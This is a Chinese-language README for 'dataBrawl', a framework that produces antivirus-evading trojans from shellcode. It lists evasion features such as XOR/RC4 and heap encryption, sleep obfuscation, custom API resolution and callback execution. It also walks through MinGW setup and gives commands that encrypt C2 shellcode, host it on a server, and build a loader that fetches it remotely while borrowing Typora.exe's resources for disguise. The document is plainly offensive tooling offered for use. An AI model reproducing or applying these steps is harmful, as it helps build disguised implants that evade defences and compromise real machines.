






# dataBrawl

**（2024.6.25注：hvv期间工具暂停更新，结束后更新hvv专版）**



一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

（本工具没有追求多而全的加载方式，去除经多次测试无效的加载技术，保留了最实用最接近APT的利用方式。）

**目前已支持：**

1. 分离加载shellcode
2. XOR/RC4 加密
3. 堆加密
4. 自定义sleep混淆
5. 自定义GetProcAddress/GetModuleHandle
6. 回调执行shellcode
7. 一键添加资源信息
8. ...


**待更新：**

1. 将bin转换成图片加载
2. 更多的反沙箱、反分析方式，更多的内存对抗等


## 环境准备

本工具使用mingw编译，需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer




添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库


## 使用说明

```
python dataBrawl.py -h
```



#### 远程加载shellcode

CS或其他C2生成shellcode



生成处理后的bin文件

```shell
python dataBrawl.py remote D:\Dev\dataBrawl-1.0\calc.bin -c 1
```

将生成在根目录的encrypt.bin上传到服务器

```shell
python dataBrawl.py remote http://127.0.0.1/xorcalc.bin -i D:\Typora\Typora.exe
```




